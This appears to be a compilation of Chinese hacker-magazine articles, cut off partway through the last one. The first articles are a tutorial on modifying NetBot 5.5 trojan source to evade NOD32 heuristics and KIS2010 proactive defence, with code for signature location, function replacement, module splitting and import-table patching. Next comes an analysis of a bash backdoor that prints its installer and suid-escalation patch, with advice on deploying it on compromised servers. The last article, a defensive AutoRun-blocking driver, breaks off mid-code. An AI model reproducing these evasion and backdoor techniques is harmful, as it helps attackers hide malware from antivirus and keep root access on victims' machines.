如果问一个程序员最讨厌的事情是什么？绝大多数都会回答“修改程序”。任何程序哪怕只是修改一个很小的地方，都很有可能牵扯到程序全局代码。对于修改源代码来实现绕过主动防御和高启发，也是一件很烦琐的事情。本文将主要讲解如何通过修改源代码来定位启发杀毒和主动防御真正的特征码。

虽然加壳/改壳非常适合逃避高启发的查杀，但对于某些 DLL 木马则不能进行加壳处理。因为加壳后的 DLL 通常会因为代码被加密而导致主控端的配置信息无法写入。比如时下比较流行的 NetBot（在文章的后面全部简称为 NB）就属于此类木马。而 NB 的 5.5 版，除了 DDOS 部分的代码没有放出以外，其余部分是完全开源的。因此下面就以 NB 5.5 为例，来讲解如何通过修改代码来定位高启发以及主动防御真正的特征码。

由于 NB 5.5 是通过替换 BITS 服务或 SVCHOST 启动来实现自启动的。其中 ServiceMain 函数中的 RuningThread 负责启动整个木马的工作线程。在这里我们做个小实验，将 CreateThread 这句代码注释掉，当然注释的时候需要在 CreateThread 上方加入“HANDLE hThread;”，否则在编译的过程中，就会因找不到 hThread 这个变量而报错。

编译器在编译代码的时候只对有效函数的执行过程进行编译，而不是对函数的所有内容进行编译。例如以下代码：

```c
for(int i=0; i<5; i++)
{
    printf("this is a test");
    if(i==3)
        break;
    if(i>3)
        printf("this is a error");
}
```

以上这段简单程序在编译后，“this is a error”是不会出现在生成的 PE 文件中的，因为当 i 等于 3 的时候循环就已经结束了，而 `printf("this is a error");` 是永远得不到执行的。那么在我们注释掉 CreateThread 函数后，由于 CreateThread 不能被执行，后面的相关函数因为中断了函数的后续执行代码，就不会被编译进 PE 文件中。所以这将导致真正的特征代码函数被错误地忽略掉。我们进一步观察 CreateThread 所创建的线程函数 RuningThread 做了哪些事情。

```c
void __stdcall ServiceMain(DWORD dwArgc, wchar_t* argv[])
{
    //省略部分代码
    HANDLE hThread;
    //HANDLE hThread = CreateThread(NULL, NULL,
    //    RuningThread, NULL, NULL, NULL);
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    //省略部分代码
}
```

这时候编译一下，将生成的 DLL 文件由 NOD32 进行查杀，你会惊奇地发现 NOD32 已经不查杀了。80% 的人都会认为 CreateThread 就是 NOD32 的特征函数。我们先看一下 CreateThread 注释前和注释后 DLL 文件的大小，注释前是 51.5KB，注释后只有 32KB，这是因为……

```c
DWORD __stdcall RuningThread(LPVOID lParam)
{
    //省略部分代码
    while(1)
    {
        GetIpAndPort();
        HANDLE hThread = NULL;
        hThread = CreateThread(NULL, NULL, ConnectThread,
                               NULL, NULL, NULL);
        //省略部分代码
    }
    WSACleanup();
    return 0;
}
```

对于 RuningThread 来说，其中 GetIpAndPort() 是用来获取主控端的连接 IP 和端口信息的。而这里的 CreateThread 是用来创建主连接线程的。这时候，我们先把 GetIpAndPort 放在一边，继续查看 ConnectThread 做了哪些动作。

```cpp
DWORD __stdcall ConnectThread(LPVOID lParam)
{
    //省略部分代码
    switch(msgHead.dwCmd)
    {
    case CMD_FILEMANAGE:
    {
        CreateThread(NULL, NULL, FileManageThread, NULL, NULL, NULL);
    }
        break;
    case CMD_SCREENSTART:
    {
        //获取上线的socket=>DWORD
        DWORD dwSock = msgHead.dwExtend1;
        CreateThread(NULL, NULL, ScreenThread, (LPVOID)dwSock, NULL, NULL);
    }
        break;
    //省略部分代码
    }
}
```

```cpp
DWORD __stdcall FileDownThread(LPVOID lParam)
{
    //省略部分代码
    typedef BOOL (WINAPI *pReadFile)(
        HANDLE hFile,
        LPVOID lpBuffer,
        DWORD nNumberOfBytesToRead,
        LPDWORD lpNumberOfBytesRead,
        LPOVERLAPPED lpOverlapped
    );

    pReadFile MyReadFile = (pReadFile)GetProcAddress(hInst, "ReadFile");

    /*
    //循环发送文件数据
    while(dwDownFileSize > 0)
    {
        if(MyReadFile)
        {
            if(!MyReadFile(hDownFile, SendBuffer, 4096, &dwBytes, NULL))
                break;
        }
        //省略部分代码
    }
    */
}
```

从 `switch(msgHead.dwCmd)` 开始，通过注释不难发现，整个远程控制的功能主体都在这里了，从文件管理到视频捕捉，可以说应有尽有。这里我们先将“case CMD_FILEMANAGE”到“default:break;”（不包括 default:break;）之间的代码注释掉，再编译就会发现，生成的 DLL 文件 NOD32 是不查杀的，也就是说，NOD32 的特征代码存在于具体功能的实现函数中。然后将“case CMD_FILEMANAGE”前的注释符号移动到“case CMD_SCREENSTART”前，这样就保证了 FileManageThread 被编译进 PE 文件，接着进行查杀，这时候 NOD32 就会报告发现病毒了。我们继续跟踪 FileManageThread 这个具体函数。在处理 FileManageThread 这个具体函数的时候，首先进行整体注释，只保留返回值就好，这样做的理由是可以判断到底特征代码是在 FileManageThread 中，还是在创建这个函数的线程函数中。因为针对主流的木马程序，很有可能 CreateThread 成为其特征函数。在经过 NOD32 再次查杀后，依然没有报告发现病毒，那么就能说明其某个特征函数存在于 FileManageThread 这个函数中。

接下来，依次将上注释符往下移动，逐步释放代码进行编译（每次释放 2~3 行代码为宜），一直到循环 while(1) 前都没有被 NOD32 查杀，而要定位循环中的代码，一定要将上下注释符放到整个循环中，否则循环就会因为括号不完整而产生编译错误。因此，将下注释符放在“default”前一行，上注释符放在“case CMD_FILEDRIVER”前，同处理 ConnectThread 一样，继续对循环函数进行跟进，每释放一个 case 消息，就对消息响应函数进行全部注释，然后将最上面的注释符号依次下移。注意，代码移动量不要过大，这时候会一直跟踪到“case CMD_FILEDOWNSTART”所对应的 FileDownThread 函数里。

用同样的方法进一步定位就会定位到 MyReadFile 这个函数上，在注释掉这个函数后，编译得到的 PE 文件和注释前编译得到的 PE 文件大小已经不会发生明显的变化了，这可以说明这里的 MyReadFile 就是 NOD32 高启发的真正特征函数了。而这里的 MyReadFile 是自定义的一个函数，它是 ReadFile 的动态载入函数，结合上下代码，ReadFile 在木马里起到关键作用，其功能是负责读取文件的数据。如果不使用这个函数，那么势必引起被控端文件无法读取。如果针对 MyReadFile 进行修改的话，就需要实现和 ReadFile 同样功能的函数来进行替换。一般情况下使用 C 语言的库函数 fopen 打开，以及通过 fread 进行读取，或者自己用 ASM 实现 ReadFile 这个函数，这 2 种方法对于一般人来说，都比较麻烦，并且不容易掌握。我在上篇里曾经说到，NOD32 高启发查杀是通过匹配函数组合实现的。在这里，MyReadFile 并不容易修改，我们需要反向注释代码来找到另外一个特征函数。

首先要看一下 MyReadFile 的调用流程。MyReadFile 由 FileDownThread 调用，而 FileDownThread 是由 FileManageThread 的消息处理函数捕捉到 CMD_FILEDOWNSTART 来进行调用的。FileManageThread 则是由 ConnectThread 的消息处理函数 CMD_FILEMANAGE 进行调用的。在反向注释的过程中，要保证 MyReadFile 被编译进 PE 文件，那么相关的调用函数则不能被注释，尤其是不要犯了一开始我所说的错误，人为造成程序中断而导致后面的相关代码不被编译。

定位到 strstr 这个函数，位于 GetIpAndPort() 中，而 strstr 是用做查找特征字符串的函数，如果要自己实现一个 strstr 的话，那么有点编程基础的人都能很轻松地做到。在修改完相关代码后，继续下一个消息处理函数的注释就好，接下来就是有没有耐心的问题了。具体处理方法，在下篇会详细讲到。

在解决了启发式杀毒的定位后，我们来解决主动防御的定位。主动防御是在非信任程序的运行中拦截敏感函数的执行来阻止恶意代码的运行。那么函数延迟触发，则是定位主动防御的最好办法（事实上主动防御要比启发简单，因为其拦截的函数就那么几个，有了经验后，可以直接跳过定位主动防御特征代码这一环节）。这里和定位启发杀毒的区别就是需要自己加入延迟触发函数以及不需要反向定位。对于 NB 5.5，我们做如下定位：

```c
HANDLE hThread = CreateThread(NULL, NULL, RuningThread, NULL, NULL, NULL);
/*
WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);
省略部分代码
*/
```

在确保前面的函数没被主动防御拦截后，我们针对 CreateThread 进行延迟触发，然后将编译过的程序放到主动防御开启的杀毒软件上进行测试（这时候的木马必须是表面和启发都处理过的），然后运行，当大概到了触发事件，杀毒软件就会弹出拦截提示，那么就证明 RuningThread 里有被主动防御拦截的函数，我们就继续跟进 RuningThread 这个函数，同样进行注释，唯一不同的就是，在对函数单个测试的时候，需要加入 Sleep() 函数来判断。

好了，中篇就说到这里了，下篇将专门讲解如何处理定位到的函数。如果对文章有不明白的地方，欢迎大家来黑防论坛提问，我的黑防 ID 是“闪亮的心”。

```c
void __stdcall ServiceMain(DWORD dwArgc, wchar_t* argv[])
{
    //省略部分代码
    Sleep(5000);
```

###### 前置知识
- 无

###### 关键词
- 免杀
- 启发杀毒
- 主动防御

##### 反病毒与反主动防御之路——基于源码的免杀技术（下）


文/JKS/闪亮的心

前 2 篇文章主要介绍了启发式杀毒和主动防御杀毒的特点，以及如何定位源码中的特征码。本文我将详细讲解如何通过修改源码来达到绕过启发式杀毒以及躲避主动防御的方法。

在中篇里，我已经定位 NB 5.5 文件管理部分的两处特征码，并且定位到了两个具体函数，一个是位于 FileDownThread 中的 MyReadFile，一个是 GetIpAndPort 中的 strstr。如果要修改的话有两种选择，要么替换 ReadFile 动态加载的 MyReadFile 函数，要么实现和 strstr 一样功能的函数。这里我选择替换 strstr 函数，并将新函数定名为 MyStr，具体实现过程如下：

```c
char *MyStr(const char *s1, const char *s2)
{
    unsigned int i = 0, j = 0;
    if (*s1 == 0) {
        if (*s2)
            return (char*)NULL;
        return (char*)s1;
    }
    while (*s1) {
        i = 0;
        j = 0;
        while (1) {
            if (s2[i] == 0) {
                return (char*)s1;
            }
            if (s2[i] == s1[j])
                break;
            i++;
        }
        s1++;
    }
    return (char*)NULL;
}
```

几个非常简单的循环就实现了 `strstr` 的功能，具体含义就不多做解释了。这时候只要将 GetIpAndPort 中的 `if(strstr(modify_data.strIPFile,"http") == NULL)` 这句替换为 `if(MyStr(modify_data.strIPFile,"http") == NULL)` 就解决问题了。此时再编译 DLL 文件，发现 NOD32 已经不查杀了，同样也无损文件传输功能。在这里，还要强调一个问题，为什么 `strstr` 和 `ReadFile` 这两个函数成对出现，就成为 NOD32 的组合特征码了呢？是不是只要有程序包含这 2 个函数就会被判定成病毒或木马呢？

经过大量测试后，发现对于 NOD32 这样的杀毒软件来说，有两种启发杀毒的方式：一种是通用组合函数，比如前面说到的 URLDownloadToFile 和 WinExec 不能成对出现；还有一种是流行木马模块组合函数，像 NB 5.5 中的 `strstr` 和 `ReadFile` 就属于此类组合。任何一款木马都要具备符合本身特征的程序框架，也就是程序工作的流程。当一款木马被杀毒软件大量截获时，通常情况下有 2 种处理方式：要么定位多重特征码，从而给文件免杀带来困难；要么采用特征框架函数，就好比分析此类木马的执行模块后，对这一模块本身的特征函数进行定位。而 NOD32 的病毒库，就是基于此类方式实现的。虽然对于启发式杀毒很多人都喜欢使用动态载入的方式来实现免杀，但随着 NOD32 的多次升级，这一招现在已经变得不那么好用了。NOD32 会从病毒库中的程序模块进行判断，如果出现 LoadLibrary 或者 GetProcAddress 函数，则立即报告有病毒，这也是 NOD32 在新版本中体现的特性之一。当然，这只是针对模块特征码而出现的特性，但是动态载入并非绝对不能使用。

我们先回到 NB 5.5 没有替换掉 `strstr` 之前的代码，来观察 FileDownThread 函数，在不注释 MyReadFile 的情况下，将 GetProcAddress 注释掉。

那么怎么来解决这个问题呢？毕竟，实现动态载入比实现替换函数要简单得多。

对于函数 ReadFile 来说，其调用者是 FileDownThread，而 FileDownThread 的调用者是 FileManageThread，最终调用 FileManageThread 的是 ConnectThread 中的处理函数捕捉到 CMD_FILEMANAGE 来创建线程实现的。那么，“case CMD_FILEMANAGE”就是 ReadFile 的调用源，同时也是启动文件模块的入口点。这就变得好办多了，既然不能在模块中使用 GetProcAddress，那我们在模块外使用即可，将动态载入的函数定义为全局变量，然后需要调用的时候，直接调用。换句话说，就是将 MyReadFile 函数的实现过程放到“case CMD_FILEMANAGE”之前，同时 MyReadFile 定义为全局变量，即可达到效果。虽然能解决问题，但是牵扯到函数使用过后句柄释放等一系列问题，所以并不推荐此类方法。表面上看，不会产生多大的问题，但是实际上，将可能造成客户端内存占用过大或者内存泄漏。

无论函数替换也好，还是函数动态载入也罢，对于流行木马的源代码修改来说，都存在一个弊端，就是流行木马的查杀规则。起初木马的免杀都是基于修改木马文件的某几个汇编指令而实现的。为了针对这种木马的变异方法，杀毒软件也采用确定木马主体框架后，不断定位木马新的特征码的方法来进行查杀，比如瑞星公司就采用此类方法。那么，针对木马框架查杀来说，显然简单的函数替换或者动态载入达不到修改主体框架的效果。为了使自己免杀出来的木马存活更长的时间，势必要对木马基本框架做一定的修改。一般我个人是采用模块分离以及修改主进程函数启动方式的技术来进行处理。

```c
DWORD __stdcall FileDownThread(LPVOID lParam)
{
    //省略部分代码
    pReadFile MyReadFile;
    //pReadFile MyReadFile = (pReadFile)GetProcAddress(hInst,"ReadFile");
    //省略部分代码
    return 0;
}
```

```c
void __stdcall ServiceMain(DWORD dwArgc, wchar_t* argv[])
{
    //省略部分代码
    TellSCM(SERVICE_START_PENDING, 0, 1);
    TellSCM(SERVICE_RUNNING, 0, 0);
    //Run My Main Code
    HANDLE hThread = CreateThread(NULL, NULL,
        RuningThread, NULL, NULL, NULL);
    //省略部分代码
}
```

这就是我说的第 2 种情况。对于 NB 5.5 来说，文件功能模块虽然被 NOD32 进行了重点关照，而在查杀 ReadFile 的同时也将 GetProcAddress 作为了模块特征函数。

以 NB 5.5 来说，如果我修改了 CreateThread 创建主控线程的启动方式，那么就等于修改了整个木马的运行框架。

在这里，我将 RuningThread 之后包含的所有代码重新封装成一个新的 DLL 文件，并把 RuningThread 做成导出函数，供其他 DLL 或 EXE 调用，这很容易实现。然后修改 ServiceMain 启动主线程的方式。假设新生成的 DLL 文件取名为 Remote.dll，主控线程函数名字不变，那么就在 ServiceMain 中做以下变换。

```c
void __stdcall ServiceMain(DWORD dwArgs, wchar_t* argv[])
{
    // 省略部分代码
    TellSCM(SERVICE_START_PENDING, 0, 1);
    TellSCM(SERVICE_RUNNING, 0, 0);
    // Run My Main Code
    typedef (WINAPI *MyRuningThread)(LPVOID lParam);
    HINSTANCE hInstance = LoadLibrary("Remote.dll");
    MyRuningThread MainThread =
        (MyRuningThread)GetProcAddress(hInstance, "RuningThread");
    MainThread(0);
    // HANDLE hThread = CreateThread(NULL, NULL,
    // RuningThread, NULL, NULL, NULL);
    // 省略部分代码
}
```

同时还要修改一下生成程序，当然这很简单。这样，我们就从函数的加载方式上，改变了整个木马模块的运行结构。接下来，再做代码定位将变得非常轻松。但是模块修改也是源代码免杀中最难的一个环节，因为这一步需要读懂整个程序的结构，才可以做比较大的变动。

接下来，我们来解决主动防御。主动防御细分又分为两种：一种是基于敏感函数监控的主动防御，比如瑞星、江民的主动防御就偏向此类；另外一种是基于防火墙拦截式的主动防御，主要是判断非认证程序是否有网络连接行为，如果有则进行拦截，比如 KIS2010 就属于此类。对于瑞星、江民的主动防御，定位方法在中篇中已经提到过，而绕过瑞星、江民的主动防御主要是采用函数替换法来实现的。由于在启发式杀毒里已经讲解了如何替换函数，这里就不多做说明了。现在主要来说明如何绕过 KIS2010 的主动防御，首先我们先写一个无害的函数。

```c
int main(int argc, char* argv[])
{
    WSADATA wsaData;
    WORD sockVersion = MAKEWORD(2, 2);
    WSAStartup(sockVersion, &wsaData);
    SOCKET m_Listen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    sockaddr_in sin;
    sin.sin_family = AF_INET;
    sin.sin_port = htons(4000);
    sin.sin_addr.S_un.S_addr = INADDR_ANY;
    // 使套接字和本地地址绑定
    bind(m_Listen, (LPSOCKADDR)&sin, sizeof(sin));
    // 设置套接字进入监听模式
    listen(m_Listen, 5);
}
```

这是一个非常简单的监听程序，可以肯定这个程序是毫无危害的。但我们将生成的程序拿到 KIS2010 下运行后，就会惊奇地发现它被主动防御给拦截了。这可以证明，KIS2010 的主动防御并不是针对木马特征来进行拦截的。我们再将 `listen(m_Listen,5)` 注释，并放到 KIS2010 下运行，就能发现 KIS2010 已经没有主动防御的提示。同样，`connect` 函数也是 KIS2010 主要拦截的 Socket 函数之一。而作为一个网络通信程序，怎么都不可能缺少这两个基本函数之一，是不是就真的无法突破了呢？

在去年某期杂志上，有人提到了复制系统 DLL 文件来恢复 Ring3 下的所有钩子的方法，对于 Winsock 函数来说，同样适用。一般来说，我们链接 Winsock 的 LIB 文件时选择的是 `ws2_32.lib`，其对应的 DLL 是 `ws2_32.dll`。这时候如果我们复制一份 `ws2_32.dll`，重命名为 `MySock.dll`，接下来通过调用 `MySock.dll` 中的 Winsock 函数即可绕过 KIS2010 的主动防御，这里我提供两种方式来实现调用。

首先是动态加载的方式。比如上面的程序，将用到的函数全部动态载入了，这时候很多人都会奇怪，既然 KIS2010 拦截的是 `listen` 函数，那么我们只需要从新的 DLL 里载入 `listen` 即可，为什么还要载入其他函数呢？Winsock 函数是属于比较特别的一组函数，其中 `WSAStartup` 起到初始化 Winsock 库的作用，而且还必须保证是同一系统对象同一调用方式的初始化。比如 `listen` 动态载入了，那么 `WSAStartup` 也必须动态载入，而且还必须是在同一 DLL 文件里动态载入，否则将会出错。既然 `listen` 动态载入了，那么其他函数也必须动态载入。

这就会有一个不大不小的麻烦，假设你的程序 Socket 函数使用较少的话，那么动态载入不会有什么问题；假设是一款远程控制木马，其中使用的 Socket 函数非常多呢？如果你是 DELPHI 程序员，书写代码的工作量会很小；但是对于 VC++ 程序来说，光载入代码就要写好大一片，另外这还得大量占用系统内存。

所以这里我推荐第二种方式，就是修改 PE 的输入表。由于调用了 Winsock 的相关函数，那么对于生成的 PE 文件的输入表，其中必然有 `ws2_32.dll` 这一串字符串，用来定位 `ws2_32.dll` 这个动态链接库。我们通过一个 Loader 程序，实现 `ws2_32.dll` 的复制并重命名为 `mySock.dll`，然后将主 DLL 模块输入表中的 `ws2_32.dll` 修改为 `mySock.dll`，这样主 DLL 模块在工作的时候既实现了静态加载，同时也实现了过 KIS2010 主动防御，何乐而不为呢？

好了，关于源码的基本免杀技术就介绍到这里了，希望大家喜欢。文中的不足之处也欢迎大家指正，我的黑防 ID 是“闪亮的心”。

前置知识：无  
关键词：工具、后门、bash


##### 一个 bash door 的简单分析

文/图 oyea9le[S.Y.C] 成都信息工程学院 三叶草工作组

最近开始学习 Linux 下的 Rootkit 级后门，编译几个 Rootkit 都失败了，其中的 `sk-1.3a.tar.gz` 试了多次都不成功。查阅资料说这个 Rootkit 只能在 2.4.X 的内核下编译才能成功。不过偶然间找到网站 http://www.ossec.net/rootkits/ ，上面提供了一个并不算 Rootkit 的 bash door，我们就来学习一下看看。

打开下载页面 http://www.ossec.net/rootkits/bashdoor.php ，下载其中的软件包 `bashdoor.tar.gz`。建立目录，解压，目录结构如图 1 所示。其中 `bashdoor.c` 是程序主文件；`bashp` 是补丁文件，用于给 `shell.c` 打补丁；`Makefile` 用于直接运行 `make` 命令；`Readme` 为说明文件，从中可以了解基本的用法；`SeCshell.c` 是一个带登录密码的调用 `/bin/sh` 的程序。


图 2

```c
void bash()
{
    puts("\n\nDownloading Bash-2.05...");
    sleep(3);
    system("/usr/bin/wget ftp://ftp.gnu.org/gnu/bash/bash-2.05.tar.gz>/dev/null");
    puts("\n\nDone downloading, now we have to untar and compile.Please wait...");
    system("/bin/tar -zxvf bash-2.05.tar.gz>/dev/null");
    system("/bin/mv ./bashp bash-2.05/");
    chdir("bash-2.05/");
    system("/usr/bin/patch shell.c bashp; ./configure>/dev/null; make>/dev/null; make install>/dev/null; mv -f ./bash /bin/");
    puts("\n\n/bin/bash has successfully been backdoored!");
    chdir("$home");
    sleep(5);
    menu();
}
```


图 1

直接运行 `make` 命令进行编译，生成目标文件 `bashdoor` 后，直接运行 `./bashdoor`，如图 2 所示。注意，此处在 backtrack 4 中运行，而且直接以 Root 用户运行。如果以普通用户运行，会出现提示：“WARNING: Bash-door cannot run correctly as a Normal User. Please Run Bash-door as root uid(0).”。由此可知，后门通常都是指拿到 Root 权限后，想长期拥有目标成果的人安装的。以普通用户安装的后门基本上没有意义。

出现菜单后，先不要选择（因为单从菜单上看不出各功能是什么），直接按“3”退出，我们来看看代码。打开文件 `bashdoor.c`，代码如上。

上面是函数 `bash()` 的代码，相信只要有一定的 C 语言基础和 Bash scripting 基础的读者都可以看懂。`wget` 是 Linux 下命令行的下载工具，在脚本中通常都用这个来下载。对于 `>/dev/null` 符号，这里解释一下，`/dev/null` 是一个虚拟设备文件，在 Linux 下被称为“黑洞”，就是一个有去无回的地方；把命令的输出结果重定向到这个文件，表示不在终端显示标准输出。如果还不想要标准错误输出的话，通常用 `>/dev/null 2>&1`。

上面代码实现的功能是：先到 GNU 官网下载 `bash-2.05.tar.gz`，解压后，给文件 `shell.c` 安装后门中带的补丁文件 `bashp`（`system("/usr/bin/patch shell.c bashp;")`），最后用 Linux 下软件编译的标准三步曲（`./configure && make && make install`）来安装。

从接下来的代码中可以知道，`bashp` 函数就是菜单“-= [1] =- Update and backdoor Bash”。上面的步骤完成过后，运行 `bash --version` 看看版本有没有变化吧。成功替换 Bash 后，我们能干什么呢？去看看 `Readme` 文件吧，其中最重要的是这一段：

> What we do here is make a file "toucb" called /tmp/mcliZokhb and either copy /bin/sh to /tmp/mclzaKmfa, or use Trojan to make a secure password protected shell. Bash will set /tmp/mclzaKmfa suid when /tmp/mcliZokhb exists. If /tmp/mcliZokhb doesn't exist then bash will do nothing.

大致意思是我们替换后的 bash 程序，在 Root 用户登录（登录会调用 bash）或者直接调用 bash 命令的时候，若存在文件 `/tmp/mcliZokhb`，bash 将自动设置文件 `/tmp/mclzaKmfa` 的 suid（当 Root 用户为某个程序设置 suid 的时候，普通用户运行此程序的时候，就临时具有 Root 的权限）。

按说明文件，我们一步步来操作吧。在 `/tmp` 目录下生成一个空文件 `mcliZokhb`，命令为：`$ touch /tmp/mcliZokhb`。这个命令直接在 bt4 中执行会提示没有权限，看看 `/tmp` 目录的权限，如图 3 所示。


图 3

这个 bt4 有点怪，因为通常 `/tmp` 目录的权限应该是任何用户可写，但只有文件的属主可以删除文件。我们修改一下，运行命令 `# chmod a+t /tmp`，就可以写了。再执行命令：`$ touch /tmp/mcliZokhb`，执行成功。然后我们执行命令：`$ cp /bin/sh /tmp/mclzaKmfa`，把 `/bin/sh` 复制到 `/tmp` 目录下，并重命名为 `mclzaKmfa`，这样就满足了说明文件中的要求了。

我们先来看看 `/tmp/mclzaKmfa` 文件的权限，如图 4 所示。之后我们从普通用户登录到 Root 用户，再来看看这个文件的权限，发现 Root 用户已经自动给它加上 suid 位了。运行 `/tmp/mclzaKmfa` 这个程序就会发现，已经是 Root 了。这样，当我们需要提权的时候，就在 `/tmp` 目录下放上 `mcliZokhb` 和 `mclzaKmfa` 文件，只要管理员一登录，这个 `mclzaKmfa` 就自动被 Root 添加上 suid 位了，如图 5 所示。


图 4


图 5

到现在为止，后门的安装基本算完成了，可是你会发现还有很多不如意的地方。作者也在 `Readme` 中说了，放个具有 suid 位的程序在 `/tmp` 目录中，这样每个普通用户都可以执行它而变成 Root 权限了。而且，这个后门针对的 bash 版本是 2.05，估计现在已经很少有用这个版本的人了。如果就这样直接替换掉系统的 bash，即使管理员不用任何工具，凭直觉也会很快发现的，因为 bash 2.05 不支持一些新版本 bash 所具有的特性。

我们的后门程序包中还有一个重要的文件 `SeCshell.c`，这个是一个带登录密码的自动调用 `/bin/sh` 的工具，密码采用标准的 DES 加密方式。那么，我们直接编译这个程序吧，命令为 `gcc -o mclzaKmfa SeCshell.c -lcrypt`，将生成的可执行文件 `mclzaKmfa` 复制到 `/tmp` 目录下。现在再来运行这个 `/tmp/mclzaKmfa` 程序，如图 6 所示，要求输入密码（Stopped:），默认密码为 `bash`，这样可以防止其他用户使用这个程序。


图 6

此处我选择的是自己编译，然后复制，当然也可以选择最开始的程序菜单 2，它实现的就是这个功能。说明一下密码，程序采用标准的 DES 来加密，默认密码为 `bash`。在这个程序中，我还发现 `crypt` 函数的一个有趣现象：`crypt("bash", "nU.aji1cF2Qk6") = "nU.aji1cF2Qk6"`，就是用 `crypt` 函数加密字符串 `bash` 时，当 salt 为 `nU.aji1cF2Qk6` 时，加密的结果也为 `nU.aji1cF2Qk6`。

要修改密码的话，我们可以直接调用一个 `crypt` 函数来生成一个密码，如下所示。修改字符串为你想要的密码，然后用输出的串替换原来的 `nU.aji1cF2Qk6`，然后再修改下 `SeCshell.c` 程序即可（注意，要同时修改 `if(strcmp(crypt(pass, crypted), cryped))` 才行）。

```c
#include <unistd.h>
#include <stdio.h>

int main(void)
{
    printf("the password is:%s\n", crypt("bash", "nU.aji1cF2Qk5"));
    return 0;
}
```

现在的主要问题是，通常目标系统用的并不是 bash 2.05 版本，那么是否可以针对任意版本制作自己的 bash 替换程序吗？应该是可以的，我就以最新的 bash 4.0 为例说明一下。首先，我们来看看 `bashp` 这个补丁文件到底干了些什么，内容如下：

```c
int code, saverst, old_e_rexit_flag;
+ struct stat finfo;
volatile int locally_skip_execution;
```

这三行代码中，上下两行是原文件中的内容，而中间这行是补丁文件添加的，就是定义后面用到的变量 `finfo`。

```c
if (running_setuid && privileged_mode == 0)
  disable_priv_mode();
+ if (getuid() == 0)
+ {
+   if (stat("/tmp/mcliZokhb", &finfo) == 0)
+   {
+     chown("/tmp/mclzaKmfa", 0, 0);
+     chmod("/tmp/mclzaKmfa", S_ISUID|S_IREAD|S_IXUSR|S_IRGRP|S_IXGRP|S_IROTH|S_IXOTH);
+   }
+ }
```

前面有“+”的行，表示补丁文件向 `shell.c` 增加的内容。从这里可以直观看出，当 Root 运行 bash 的时候，就会执行这个语句块；而如果存在文件 `/tmp/mcliZokhb`，就给文件 `/tmp/mclzaKmfa` 添加 suid/chmod 权限。下载 bash 4.0，找到文件 `shell.c`，手动找到相应的上下文环境，把相应的代码加上去就可以了。

这个后门实现的功能现在已经完全明白了，我们可以自由地修改了。比如对上面的两个文件名字不满意，此时就可以随意修改了。当然，建议都在文件名前加上“.”号，这样至少可以简单隐藏一下。这个后门本身不太适合于实战，那么对于实战，我的建议是，拿到服务器先用命令：

```bash
$ bash --version
GNU bash, version 2.05.0(1)-release (i686-pc-linux-gnu)
Copyright 2000 Free Software Foundation, Inc.
```

查看一下上面的 bash 版本号，然后去 `ftp://ftp.gnu.org/gnu/bash` 下载相应的版本，手动添加上面补丁文件的内容。在自己的系统上执行 `./configure&&make`，过后直接用编译成的 bash 替换原来的 `/bin/bash`，最后在 `/tmp` 目录下生成相应的文件，就可以利用了。本来想写个 Shell 脚本来自动完成的，但是考虑到版本不一样，所以建议手动来修改比较具有实用性。

对这个后门分析过后会发现，它只是简单地修改 `shell.c` 文件，然后编译、替换原来系统的 bash，再利用相应的 suid 程序来留后门，是个很初级的后门，和 Rootkit 还有很大的差距，因为它无法做到隐藏自己。

前置知识：VC  
关键词：编程、autorun、Hook

##### 主动防御 AutoRun 病毒


文/图 liuke_blue

我曾经在黑防杂志上发表过一篇《AutoRun 病毒的主动防御》的文章，主要是讲如何通过编写驱动来防止 AutoRun 病毒被用户删除，从而实现 AutoRun 病毒自我保护的功能。如果想深入了解该文的话，请查阅 2009 年第 6 期的《黑客防线》。所谓有“攻”就有“防”，现在就给大家讲讲如何自己通过编程来实现主动防御 AutoRun 病毒的运行。在这之前，先给大家讲讲一种经常使用的主动防御 AutoRun 病毒的方法。

我在黑防的杂志上看到过一些关于编程来实现 AutoRun 病毒的防御，以及使用一些工具来对 AutoRun 病毒进行主动防御的文章。它们所使用的防御原理几乎都是以下这种方式：Windows 系统中文件夹名或者文件名都是唯一的。在每个磁盘分区的根目录下建立名为 `AutoRun.inf` 的文件夹，这个文件夹里一般都会有一个子文件夹，其名字中含有特殊的字符，比如说 `\MSS..`，这个文件夹名显示出来的是 `MSS.`，它其实隐含了一个 “.”。由于这个子文件夹的存在，你想对这个 `AutoRun.inf` 文件夹进行重命名、删除、剪切等操作是不行的。而且 AutoRun 病毒要能够传播运行，必须在磁盘的根目录下建立一个文件名为 `AutoRun.inf` 的配置文件才行。因为 `AutoRun.inf` 这个文件无法成功创建，所以 AutoRun 病毒……运行就失败了。

这个方法我认为有点麻烦，因为每个磁盘下都要建立文件名为 AutoRun.inf 的文件夹，而且看到这个 AutoRun.inf，我就不喜欢，不管它是“好的”还是“坏的”，所以我决定用另外一种方法来主动防御 AutoRun.inf 病毒。

思路是这样的：我们知道在建立文件、读写文件时，都要用到 CreateFile 函数，AutoRun 病毒也一样，它要运行就要依靠 AutoRun.inf 这个文件，所以首先就要在磁盘的根目录下建立 AutoRun.inf 这个文件，这是病毒运行的充分条件。所以我们只要拦截 CreateFile 函数，判断它是否在磁盘根目录下处理 AutoRun.inf 文件，如果是创建 AutoRun.inf 文件，那么让 CreateFile 函数创建失败即可。Ring3 下的 CreateFile 函数其实是调用 Ring0 下的 ZwCreateFile 函数，所以在底层拦截 ZwCreateFile 这个函数。在这里我使用 SSDT Hook 来实现。该程序分两个部分：编写驱动和应用层。下面先讲讲内核驱动的编写，主要代码如下：

```c
NTSTATUS HookZwCreateFile(OUT PHANDLE FileHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    OUT PIO_STATUS_BLOCK IoStatusBlock,
    IN PLARGE_INTEGER AllocationSize OPTIONAL,
    IN ULONG FileAttributes,
    IN ULONG ShareAccess,
    IN ULONG CreateDisposition,
    IN ULONG CreateOptions,
    IN PVOID EaBuffer OPTIONAL,
    IN ULONG EaLength)
{
    NTSTATUS status = STATUS_SUCCESS;
    ANSI_STRING FullName;
    PSTR ProFile;
    if ((CreateDisposition == FILE_CREATE)) {
        RtlUnicodeStringToAnsiString(&FullName, ObjectAttributes->ObjectName, TRUE);
        RtlUpperString(&FullName, &FullName);
        ProFile = "AUTORUN.INF";
        if (strstr(FullName.Buffer, ProFile)) {
            IoStatusBlock->Status = STATUS_OBJECT_NAME_NOT_FOUND;
            IoStatusBlock->Information = 0;
